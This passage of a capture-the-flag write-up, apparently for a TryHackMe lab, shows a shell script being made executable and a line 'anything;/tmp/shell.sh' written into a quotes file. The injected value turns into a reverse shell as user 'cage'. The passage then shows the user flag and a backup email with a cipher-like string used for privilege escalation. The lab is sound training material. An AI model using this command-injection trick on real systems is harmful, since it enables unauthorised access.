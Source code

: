 - Gave executing rights to it.

```console
weston@national-treasure:/tmp$ chmod +x shell.sh
```
- Added this to .quotes.

```console
weston@national-treasure:/tmp$ printf 'anything;/tmp/shell.sh\n'  > /opt/.dads_scripts/.files/.quotes
```

- Got a reverse shell from user cage.
- Found user flag in  file `Super_Duper_Checklist`

```console
cage@national-treasure:~$ cat Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
cage@national-treasure:~$
```

## Privilege Escalation
- Found a directory `email_backup` in the home directory of `cage`.
- In the directory `email_backup` there were three mails.
- In the third mail there was a suspicious word `haiinspsyanileph`.

```console
cage@national-treasure:~/email_backup$ cat email_3
From - Cage@nationaltreasure.com
To - Weston@nationaltreasure.com

Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

haiinspsyanileph

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!!
hahahahahahahahahahahahahahahaahah get it Weston! FACE THAT!!!! hahahahahahahhaha
ahahahhahaha. Ahhh Face it... he's just odd.

Regards

The Legend - Cage

```
